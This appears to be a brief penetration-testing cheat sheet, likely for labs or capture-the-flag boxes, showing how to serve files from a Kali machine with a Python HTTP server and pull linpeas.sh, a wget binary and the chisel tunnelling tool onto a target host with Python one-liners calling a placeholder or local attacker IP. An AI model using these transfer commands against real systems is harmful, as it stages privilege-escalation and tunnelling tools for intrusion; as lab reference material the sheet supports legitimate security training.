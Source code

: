 `on kali`

```bash
python2.7 -m SimpleHTTPServer 80
```

`on the box`


```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('http://IP-ADD//linpeas.sh', 'linpeas.sh')"
```
**or**

```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('http://192.168.1.36:80/linpeas.sh', 'linpeas.sh')"
````

## python3
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('http://192.168.56.1//wget', 'wget')"
```
## python2.7 
```bash
python2.7 -c "import urllib; urllib.urlretrieve('http://192.168.56.1/chisel-amd64', 'chisel')"
```
